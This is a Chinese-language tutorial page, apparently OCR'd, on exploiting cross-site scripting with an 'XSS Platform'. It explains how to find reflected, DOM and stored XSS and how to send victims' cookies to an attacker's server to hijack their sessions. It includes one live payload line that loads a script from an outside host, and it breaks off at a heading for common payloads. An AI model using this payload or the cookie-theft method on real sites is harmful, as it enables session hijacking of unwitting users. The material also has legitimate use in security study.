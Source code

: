 <script>$.getScript("//www.xsstools.com/xss.js");</script>  
### 使用xss 漏洞利用平台  
  
XSS Platform 是一个经典的 XSS渗透测试管理系统，它集合了 xss 攻击的多种方法，很方便快捷的利用 xss 漏洞，生成攻击代码。  
  
将恶意代码插入url中并发送给普通用户，且该用户的浏览器持有这个网站的cookie，用户访问后就会将cookie发送给攻击者的服务器中。  
  
或者：  
  
将恶意代码插入存在漏洞的页面，当用户访问有问题的网页时，浏览器会加载恶意的攻击代码，会获取当前受害者访问网站的 cookie 发送到攻击者的服务器里。  
  
受害者访问页面后，攻击者的服务器就会收到受害者的cookie等信息  
  
利用盗取的cookie登录网站：访问网站时抓包，将cookie换成受害者的cookie，然后放行  
  
成功登录  
## 实际利用  
#### 反射型XSS、DOM型XSS  
  
验证测试情况  
  
在网站的搜索栏、用户登录入口、输入表单等处输入payload，查看页面是否有弹框，则存在反射型XSS漏洞；  
  
现实攻击情况  
  
攻击者寻找具有XSS漏洞的网站，植入payload构造恶意链接，将恶意链接发给用户，诱骗用户点击，用户点击此链接，XSS攻击执行。为了更加隐蔽的隐藏攻击代码，可以把当前的代码进行缩短再发送给目标。  
  
dom 型 xss 是用过改变 html 的属性或动作造成的 xss 型漏洞。在挖掘漏洞时需额外关注能操作 html 属性的函数，特别是 document.getElementById、  
  
document.getElementsByName、document.getElementsByTagName  
  
getElementById()  
  
返回对拥有指定 id 的第一个对象的引用。  
  
getElementsByName()  
  
返回带有指定名称的对象集合。  
  
getElementsByTagName()  
  
返回带有指定标签名的对象集合。  
  
getelementbyid.innerHTML 更改 html 的字符串  
  
和 js 输出的函数  
  
document.write();  
#### 存储型XSS  
  
验证测试情况  
  
在论坛、博客、留言板、网站的留言、评论、日志等交互处输入payload，查看页面是否有弹框。若有，先切换至网站其他页面，再返回输入payload的页面，若依旧出现弹窗，则存在存储型XSS漏洞。  
  
现实攻击情况  
  
攻击者在发帖或留言的过程中，将恶意脚本连同正常信息一起注入到发布内容中。随着发布内容被服务器存储下来，恶意脚本也将永久的存放到服务器的后端存储器中。当其他用户浏览这个被注入了  
  
恶意脚本的帖子时，恶意脚本就会在用户的浏览器中得到执行。  
  
常用payload：  
  